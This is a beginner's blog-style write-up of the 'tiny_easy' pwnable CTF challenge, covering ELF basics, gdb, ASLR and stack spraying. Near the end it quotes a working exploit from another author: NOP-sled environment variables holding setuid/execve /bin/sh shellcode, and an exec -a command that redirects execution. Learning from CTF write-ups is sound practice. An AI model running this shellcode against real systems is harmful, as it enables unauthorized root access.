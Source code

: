 #**tiny_easy**

*I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.*

———————————————–

This was the first Rookiss-level challenge I attempted, and I have been struggling with it for about two weeks now. It involves going into gdb and observing the memory to determine what to do next, but i wasn't able to get past that.

Initially, the challenge asks you to ssh into a pwnable server to start. Going into the server and looking at the directory, we see the following:

![img1](images/img1.png)

Pretty standard so far. Trying to run ./tiny_easy however, wasn't so easy.
![img1](images/img2.png)

Whatever input I tried to give the program, it would always end up as a segmentation fault.

So the natural conclusion I had was to pop it into gdb and see if I could get any more details about what was happening there. Running gdb….
![img1](images/img3.png)


.. gave me absolutely nothing.
![img1](images/img4.png)

Running a backtrace on the crashed program also yielded nothing.


I needed to find something else, because I was just getting nowhere. I found a tutorial from sheepshellcode.com, which gave me a few more ideas of where to start looking.

Firstly, I ran a file command on the tiny_easy file. I got this for the output:
![img1](images/img5.png)

I actually learned a couple things from this. Firstly, I had never heard of an ELF executable, and it turns out that ELF stands for "Executable and Linkable Format". Within Linux, it is the common standard file format for executable files.
![img1](images/img6.png)


As that stands, it didn't really tell me much about the file itself, knowing it is just a common standard.

The second thing in the output that was foreign to me was the "statically linked" part. I had honestly never heard of the team before, so I did some googling and read a bit more. A statically linked program is "a set of routines, external functions and variables which are resolved in a caller at compile-time and copied into a target application by a compiler, linker or binder, producing an object-file and a stand-alone executable". From what i can tell, this essentially means that any references to external functions or objects get added in during compile time, so that the executable is a stand-alone package. This would differ from something like a translated language, which runs the program line-by-line.


Once I had done this, I continued reading and found that the tutorial used a command called readelf, which essentially read the header of the file.
![img1](images/img7.png)


This gave a bit more information about the file, but still didn't really help. I used gdb to set a breakpoint at the Entry point address that was given in the findelf command. When I ran it with gdb, the program hadn't segfaulted yet, which was kind of expected since the program wouldn't have started.


I was again stuck, and truthfully reading through his solution I'm not sure if I woiuld be able to get it without quite a bit more research and practice into doing these kinds of challenges.

He eventually finds that by modifying the value of the first 4 characters of argv[0] with a exec -a command will allow us to change the value of the register eip.

He introduces another technique called "heap spraying" that I had never heard of, but which makes sense to me based on the write-up. ASLR (Address Space Layout Randomisation) is a feature that aims to address exploits such as these by randomising the actual location of the program in memory. Therefore, it is hard to make an attack that changes addresses since the attacker does not know where it will be in memory. Heap spraying tries to get around this by putting the malicious code or address in as many places as possible, combined with nops. nops are a blank instruction, and will move to the next instruction if they are hit. Therefore, with this method the chance of hitting the code by random is greatly increased, (and is the reason why the method is called "spraying", since we are simply guessing where it would be).


The tutorial tries spraying the stack instead of the heap, using the following exploit:

|-------EXPLOIT-------|
```
for i in `seq 1 100`;
do
export A_$i=$(python -c 'print "\x90"*4096 + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"');
done
```

Once the stack is sprayed, the following exploit is run, and on the second time hit one of the malicious shellcode operations and gave root access.

```
exec -a $(python -c 'print "\x90\xd5\x9c\xff"') ./tiny_easy
```

This was definitely way out of my league, having never heard of many of the tools and techniques used, but I am glad that I attempted it and did some research. I actually learnt quite a bit from looking at a solution, and I will make sure to try a challenge that involves something like heap/stack spraying in the future. 

---

*23/7/2019*